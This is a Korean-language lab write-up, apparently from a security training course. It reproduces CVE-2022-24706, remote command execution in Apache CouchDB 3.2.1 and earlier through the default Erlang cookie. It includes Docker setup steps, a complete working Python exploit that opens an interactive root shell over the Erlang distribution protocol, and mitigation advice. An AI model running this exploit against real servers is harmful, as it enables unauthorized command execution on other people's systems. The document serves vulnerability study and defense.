

# CVE-2022-24706

**Contributors**

-  화이트햇스쿨 4기 39반 [금정현(@junghyeonkum)](https://github.com/junghyeonkum)

<br/>

# CouchDB Erlang Distribution 원격 명령 실행 취약점 (CVE-2022-24706)

### 요약
Apache CouchDB는 Erlang으로 구현된 오픈소스 문서 지향(Document-Oriented) NoSQL 데이터베이스입니다.

Apache CouchDB는 Erlang으로 개발되었기 때문에 분산 컴퓨팅(클러스터링) 기능을 기본적으로 지원합니다. 클러스터 노드들은 Erlang/OTP Distribution Protocol을 사용하여 서로 통신하며, 이 프로토콜을 통해 CouchDB를 실행하는 사용자 권한으로 운영체제(OS) 명령을 실행할 수 있습니다.

운영체제 명령을 실행하려면 Erlang에서 Cookie라고 부르는 인증 문자열(Secret Phrase)을 알고 있어야 합니다. CouchDB 3.2.1 이하 버전에서는 설치 시 기본 Cookie 값이 monster로 설정되어 있으며, 이 값을 알고 있는 공격자는 인증을 통과하여 원격에서 운영체제 명령을 실행할 수 있습니다.

참고 자료:

- <https://docs.couchdb.org/en/3.2.2-docs/cve/2022-24706.html>
- <https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/>
- <https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/erlang_cookie_rce.rb>
- <https://github.com/sadshade/CVE-2022-24706-CouchDB-Exploit>

### 환경 요구사항

본 실습을 수행하기 위해서는 다음 환경이 필요합니다.

- Docker 및 Docker Compose가 설치되어 있어야 합니다.
- PoC 실행을 위해 Python 3가 설치되어 있어야 합니다.

Apple Silicon(M1/M2/M3) 기반 macOS에서는 이미지 플랫폼 관련 경고가 출력될 수 있습니다. 대부분의 경우 Docker Desktop이 amd64 이미지를 자동으로 에뮬레이션하여 실행하므로 별도의 조치가 필요하지 않습니다. 만약 컨테이너가 정상적으로 실행되지 않는 경우에는 `docker-compose.yml`의 `couchdb` 서비스에 `platform: linux/amd64` 옵션을 추가하여 실행할 수 있습니다.

Python 3가 설치되어 있지 않은 경우 아래 명령을 통해 설치할 수 있습니다.

```bash
sudo apt update
sudo apt install -y python3
```

### 환경 설정

다음 명령을 실행하여 Apache CouchDB 3.2.1 환경을 실행합니다.

```
docker compose up -d
```

서비스가 실행되면 target-ip에서 다음 3개의 포트가 열립니다.

- 5984: Apache CouchDB 웹 인터페이스
- 4369: Erlang Port Mapper Daemon(EPMD)
- 9100: 클러스터 통신 및 런타임 관리 포트 (실제 명령은 이 포트를 통해 실행됩니다.)

실제 환경에서는 웹 인터페이스 포트(5984)와 EPMD 서비스 포트(4369)는 고정되어 있지만, 클러스터 통신 포트는 실행 시마다 변경될 수 있습니다. 따라서 EPMD 서비스에 접근하여 현재 사용 중인 클러스터 통신 포트 번호를 확인할 수 있습니다.

Apache CouchDB가 정상적으로 실행되면 `http://target-ip:5984`에서 버전 정보를 확인할 수 있습니다.


### 취약 조건

본 취약점은 다음 조건을 만족하는 경우 발생합니다.

- Apache CouchDB 3.2.1 이하 버전이 실행 중이어야 합니다.
- Erlang Distribution 기능이 활성화되어 있어야 합니다.
- Erlang Cookie가 기본값(`monster`)으로 설정되어 있어야 합니다.
- Erlang Distribution 서비스(EPMD)에 접근할 수 있어야 합니다.

### 재현 절차

1. 다음 명령을 실행하여 취약한 Apache CouchDB 환경을 실행합니다.

```bash
docker compose up -d
```

2. EPMD 서비스(4369)가 실행 중인 상태에서 아래 명령을 실행하여 PoC를 수행합니다.

```bash
python3 poc.py target-ip 4369
```

3. PoC는 EPMD 서비스로부터 현재 사용 중인 클러스터 통신 포트 번호를 조회한 후, 기본 Cookie(`monster`)를 이용하여 Erlang Distribution Protocol 인증을 수행합니다.

4. 인증이 완료되면 원하는 운영체제 명령을 입력하여 원격 명령 실행 여부를 확인할 수 있습니다.

### PoC 코드

```
#!/usr/local/bin/python3

# Python 기본 라이브러리
import socket
from hashlib import md5
import struct
import sys
import re
import time

# 대상 서버 및 기본 설정
TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # EPMD 기본 포트
COOKIE = "monster" # CouchDB 기본 Erlang Cookie 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Erlang 노드 목록 요청 패킷

# Erlang 인증 및 제어 메시지
NAME_MSG  = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"

# 사용자가 입력한 명령을 Erlang RPC 패킷으로 변환
def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

# EPMD 서버에 접속하여 Erlang 노드 정보 획득
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
# Erlang 노드 목록 요청
epm_socket.send(EPM_NAME_CMD) 

# 정상 응답이면 노드 정보를 가져옴
if epm_socket.recv(4) == b'\x00\x00\x11\x11': 
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search(r"\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Erlang 노드에 접속
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
# Challenge 값 수신
s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024)     
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]


# Challenge 값을 이용하여 인증 정보 생성
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()

# 인증 요청
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

# 인증 성공 여부 확인
if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0

# 사용자 명령을 입력받아 원격 CouchDB 노드에서 실행
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] 
        s.recv(45)              
        data_size -= 45         
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        time.sleep(0.1)
        print(data[3:].decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        time.sleep(0.1)
        print(data[4:].decode())
        data_size -= 1024
```

### 실행 결과

PoC 실행 결과, EPMD 서비스를 통해 클러스터 통신 포트가 정상적으로 확인되고 `Authentication successful` 메시지를 통해 Erlang Distribution Protocol 인증이 성공했음을 확인할 수 있습니다.

이후 `whoami` 명령을 실행하여 명령이 `root` 권한으로 수행되는 것을 확인하고, `id` 명령을 통해 사용자 및 그룹 정보를 확인할 수 있습니다. 또한 `touch /tmp/success` 명령으로 대상 시스템의 `/tmp` 디렉터리에 `success` 파일을 생성한 뒤, `ls /tmp` 명령으로 해당 파일이 생성된 것을 확인할 수 있습니다. 이를 통해 입력한 운영체제 명령이 대상 시스템에서 실제로 실행되었음을 검증할 수 있습니다.



### 환경 종료

실습이 완료되면 다음 명령을 실행하여 Docker 컨테이너와 네트워크를 종료합니다.

```
docker compose down
```

### 대응 방안

1. 최신 버전 업데이트  
   Apache CouchDB 3.2.2 이상 버전으로 업데이트하여 기본 Erlang Cookie 사용 문제를 해결합니다.

2. 기본 Erlang Cookie 변경  
   기본 Cookie 값(`monster`)을 사용하지 않고 추측이 어려운 임의의 값으로 변경하여 인증 우회 및 원격 명령 실행을 방지합니다.

3. EPMD 및 클러스터 통신 포트 접근 제한 
   EPMD(4369)와 클러스터 통신 포트는 신뢰된 호스트에서만 접근할 수 있도록 방화벽이나 접근 제어 정책을 적용합니다.

4. 불필요한 Erlang Distribution 기능 비활성화  
   클러스터 기능을 사용하지 않는 환경에서는 Erlang Distribution 기능 또는 관련 서비스의 외부 접근을 제한하여 공격 가능성을 최소화합니다.
